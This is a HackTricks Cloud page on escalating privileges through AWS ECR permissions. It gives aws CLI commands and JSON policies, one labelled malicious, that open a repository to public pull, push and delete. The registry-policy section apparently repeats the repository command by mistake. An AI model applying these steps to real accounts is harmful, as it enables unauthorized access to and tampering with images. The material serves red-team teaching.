 # AWS - ECR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

An attacker with the **`ecr:GetAuthorizationToken`** and **`ecr:BatchGetImage`** can login to ECR and download images.

For more info on how to download images:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**Potential Impact:** Indirect privesc by intercepting sensitive information in the traffic.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

An attacker with the all those permissions **can login to ECR and upload images**. This can be useful to escalate privileges to other environments where those images are being used.

To learn how to upload a new image/update one, check:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Like the previous section, but for public repositories.

### `ecr:SetRepositoryPolicy`

An attacker with this permission could **change** the **repository** **policy** to grant himself (or even everyone) **read/write access**.\
For example, in this example read access is given to everyone.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```

Contents of `my-policy.json`:

```json
{
    "Version" : "2008-10-17",
    "Statement" : [
        {
            "Sid" : "allow public pull",
            "Effect" : "Allow",
            "Principal" : "*",
            "Action" : [
                "ecr:BatchCheckLayerAvailability",
                "ecr:BatchGetImage",
                "ecr:GetDownloadUrlForLayer"
            ]
        }
    ]
}
```

### `ecr-public:SetRepositoryPolicy`

Like the previoous section, but for public repositories.\
An attacker can **modify the repository policy** of an ECR Public repository to grant unauthorized public access or to escalate their privileges.

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
  "Version": "2008-10-17",
  "Statement": [
    {
      "Sid": "MaliciousPublicRepoPolicy",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "ecr-public:GetDownloadUrlForLayer",
        "ecr-public:BatchGetImage",
        "ecr-public:BatchCheckLayerAvailability",
        "ecr-public:PutImage",
        "ecr-public:InitiateLayerUpload",
        "ecr-public:UploadLayerPart",
        "ecr-public:CompleteLayerUpload",
        "ecr-public:DeleteRepositoryPolicy"
      ]
    }
  ]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**Potential Impact**: Unauthorized public access to the ECR Public repository, allowing any user to push, pull, or delete images.

### `ecr:PutRegistryPolicy`

An attacker with this permission could **change** the **registry policy** to grant himself, his account (or even everyone) **read/write access**.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
